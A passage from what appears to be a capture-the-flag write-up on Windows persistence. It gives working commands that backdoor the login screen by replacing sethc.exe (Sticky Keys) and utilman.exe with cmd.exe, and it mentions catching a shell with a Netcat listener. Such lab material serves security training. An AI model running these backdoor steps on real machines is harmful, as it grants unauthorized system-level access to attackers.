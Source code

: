 ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692397513689/c8c8a6db-5a5d-4ee6-ab35-76c1745f92d1.png align="center")

Set up the `Netcat` listener, log out and then log back in to capture the shell. Grab `flag13.exe` from here.

### Backdooring the Login Screen Using Stickykeys

The following steps can be taken to create a backdoor on the Windows login screen using Stickykeys.

```powershell
takeown /f C:\Windows\System32\sethc.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692397614244/adb843b4-df8d-4b68-ba87-8b69be9c4ba4.png align="center")

```powershell
icacls C:\Windows\System32\sethc.exe /grant Administrator:F
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692397624217/bd4e58b2-e709-4ec7-8223-01ce61bac484.png align="center")

```powershell
copy C:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692397633955/7c8894f0-fc4b-4a83-99c1-d4dc638be61c.png align="center")

Grab `flag14.exe`:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692398845196/fe90c8fe-c28e-4cf7-9e10-b505af5c1865.jpeg align="center")

### Backdooring the Login Screen Using Utilman

The following steps can be taken to create a backdoor on the Windows login screen using Utilman.

```powershell
takeown /f C:\Windows\System32\utilman.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692397718350/6fd8c81b-b9c6-4e4e-9a5b-11f945fba94d.png align="center")

```powershell
icacls C:\Windows\System32\utilman.exe /grant Administrator:F
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692397730020/ba6b72d3-f70e-44b3-a21f-c18802f10447.png align="center")

```powershell
copy C:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692397745558/18df87c1-f1fe-4118-b4c2-463f0c2b0218.png align="center")

Grab `flag15.exe`:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692398897482/0f14f9f6-4a39-4ad7-ae48-0902078dbcba.jpeg align="center")
